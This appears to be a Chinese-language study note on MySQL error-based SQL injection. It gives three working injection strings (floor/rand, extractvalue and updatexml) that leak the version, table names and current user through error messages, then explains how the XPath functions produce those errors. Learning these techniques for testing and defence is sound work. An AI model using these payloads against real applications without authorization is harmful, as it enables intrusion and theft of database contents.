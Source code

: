 # 1、报错盲注

参考地址：https://www.jianshu.com/p/bc35f8dd4f7c     	https://developer.aliyun.com/article/692723



常见的报错注入如下：

1、通过**floor报错注入**语句如下:

```
and select 1 from (select count(*),concat(version(),floor(rand(0)*2))x from information_schema.tables group by x)a);
```

2、通过**ExtractValue报错注入**语句如下:

```
and extractvalue(1, concat(0x5c, (select table_name from information_schema.tables limit 1)));
```

3、通过**UpdateXml报错注入**语句如下:

```
 and 1=(updatexml(1,concat(0x3a,(select user())),1))
```





## 报错注入：extractvalue、updatexml报错原理

MySQL 5.1.5版本中添加了对XML文档进行查询和修改的两个函数：extractvalue、updatexml

| 名称                                                         | 描述                               |
| :----------------------------------------------------------- | :--------------------------------- |
| [`ExtractValue()`](https://dev.mysql.com/doc/refman/5.7/en/xml-functions.html#function_extractvalue) | 使用XPath表示法从XML字符串中提取值 |
| [`UpdateXML()`](https://dev.mysql.com/doc/refman/5.7/en/xml-functions.html#function_updatexml) | 返回替换的XML片段                  |

通过这两个函数可以完成报错注入



### 一、extractvalue函数

[`ExtractValue(xml_frag, xpath_expr)`](https://dev.mysql.com/doc/refman/5.7/en/xml-functions.html#function_extractvalue)

[`ExtractValue()`](https://dev.mysql.com/doc/refman/5.7/en/xml-functions.html#function_extractvalue)接受两个字符串参数，一个XML标记片段  *xml_frag* 和一个XPath表达式 *xpath_expr*（也称为 定位器）; 它返回`CDATA`第一个文本节点的text（），该节点是XPath表达式匹配的元素的子元素。

第一个参数可以传入目标xml文档，第二个参数是用Xpath路径法表示的查找路径

例如：`SELECT ExtractValue('<a><b><b/></a>', '/a/b');` 就是寻找前一段xml文档内容中的a节点下的b节点，**这里如果Xpath格式语法书写错误的话，就会报错**。这里就是利用这个特性来获得我们想要知道的内容。

![1551927935215](https://s2.loli.net/2022/11/25/UGXeuI1EJyalMD7.png)
（这里我们是为了学习报错注入，所以不需要太详细的知道该函数具体原理）
